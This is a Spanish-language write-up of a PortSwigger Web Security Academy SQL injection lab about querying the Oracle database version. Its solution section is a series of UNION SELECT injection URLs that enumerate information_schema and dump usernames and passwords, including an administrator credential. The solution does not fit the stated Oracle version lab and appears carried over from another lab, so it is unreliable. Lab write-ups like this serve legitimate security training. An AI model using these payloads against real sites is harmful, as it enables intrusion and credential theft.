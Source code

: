 # `LAB`: SQL injection attack, querying the database type and version on Oracle

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. 

## Hint

On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.

There is a built-in table on Oracle called dual which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual`

For more information, see our SQL injection cheat sheet.


---

### Explicación:

Este laboratiorio es exactamente igual al mismo, en realidad "la diferencia" es que solicitan mostrar la información **en una sola columna** pero ese ejemplo también se vió en el anterior.

- Debido a que la vulnerabilidad está en 2 columnas `'1','2'` se pueden usar ambar para poner la información, por ejemplo `'1':username` y `'2':password`, pero también se pueden poner ambas en una sola columna utilizando técnicas como `CONCAT`, `GROUP_CONCAT`, `||`, etc...

- OJO!!! A diferencia del laboratorio anterior, este escenario no permite mostrar resultados en columna `'1'`, es por eso que inyecto los querys en `'2'` únicamente

## Solución:

````py
# Original
https://666.web-security-academy.net/filter?category=Lifestyle

# Vulnerabilidad
https://666.web-security-academy.net/filter?category=Lifestyle'

# Sanar el Query
.web-security-academy.net/filter?category=Lifestyle' -- -

# Contando Columnas en la tabla que estoy (total = 2)
.web-security-academy.net/filter?category=Lifestyle' order by 2 -- -

# NOT WORKING!!! Contando Columnas en registro que estoy (total = 2) 
.web-security-academy.net/filter?category=Lifestyle'  union select 1,2 -- -

# Working!!! Invisible - Contando Columnas en registro que estoy (total = 2) 
.web-security-academy.net/filter?category=Lifestyle'  union select null,null -- -
# Working!!! Visible - Contando Columnas en registro que estoy (total = 2) 
.web-security-academy.net/filter?category=Lifestyle'  union select '1','2' -- -

### DUMP: schema, tables, columns

    # OJO!!! `Depende el lado de la inyección irá el "UNION SELECT <--> schema_name"`

# Enum Databases:

## Opt1 - Dump: schema_name = DBs 
.web-security-academy.net/filter?category=Lifestyle' UNION SELECT '1',schema_name FROM information_schema.schemata -- -
    ### vvv-vvv-vvv-vvv-vvv-vvv-vvv
    ### [DUMP = DB = 1. public]

# Enum Tables (TODAS):
.web-security-academy.net/filter?category=Lifestyle' UNION SELECT '1',table_name FROM information_schema.tables -- -
## Opt3 - Dump: table_name = Tables (SOLO database() en este caso 'public')
.web-security-academy.net/filter?category=Lifestyle' UNION SELECT '1',table_name FROM information_schema.tables WHERE table_schema = 'public' -- -

    ### vvv-vvv-vvv-vvv-vvv-vvv-vvv
    ### [DUMP = Table = 1. users]
    ### [DUMP = Table = 2. products]

# Enum Columns:

## Opt1 - Dump: table_name = Tables (SOLO database() en este caso 'public')
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',column_name FROM information_schema.columns WHERE table_schema = 'public' AND table_name = 'users' -- -
    ### vvv-vvv-vvv-vvv-vvv-vvv-vvv
    ### [DUMP = Columns = 1. password]
    ### [DUMP = Columns = 1. username]

# Dump Data:

    # Aqui solo podemos arrojar el resultado en una sola columna

    # Nota GROUP_CONCAT: Casualmente `' UNION SELECT group_concat(username,password),'2' FROM users -- -` da error, pero es comúnmente usada. 

## Opt1 - Dump "username" + "password" (CONCAT)
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',concat(username,' ::: ',password) FROM users -- -
## Opt2 - Dump "username" + "password" (*STRING COCATENATION - Port Swigger cheatsheet - ||' ::: '||)
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',username||' ::: '||password FROM users -- -
    ### vvv-vvv-vvv-vvv-vvv-vvv-vvv
    ### [DUMP = Data = administrator ::: 0x35tx3qbzk3re93pdog]



````
